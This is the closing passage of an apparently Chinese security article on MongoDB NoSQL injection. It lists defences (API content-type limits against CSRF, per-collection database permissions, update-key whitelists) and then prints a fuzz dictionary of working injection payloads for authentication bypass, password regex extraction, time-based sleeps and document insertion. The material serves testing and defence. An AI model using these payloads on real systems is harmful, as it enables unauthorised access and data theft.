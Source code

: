 #### 控制`rest api`接口请求

​ 主要是为了防御`CSRF`攻击

-   只接受`JSON`格式的`content type`
-   `html`表单不局限于只进行`url`编码
-   确保不会出现`JSONP`和`CORS`跨域请求

#### 数据库权限控制

-   对数据库操作进行合理的权限控制
-   不同的用户访问不同的集合
-   不同的用户对不同的集合增删改查权限做细分

[![](assets/1711465904-a4d4e5a710c083432c85a97db2806d03.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240323182119-16e450c2-e8ff-1.png)

#### 编码规范

-   控制更新白名单`key`
-   非必要情况下前端禁止传入字典

## 写在最后

### fuzz 字典

[https://github.com/cr0hn/nosqlinjection\_wordlists/blob/master/mongodb\_nosqli.txt](https://github.com/cr0hn/nosqlinjection_wordlists/blob/master/mongodb_nosqli.txt)

```plain
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```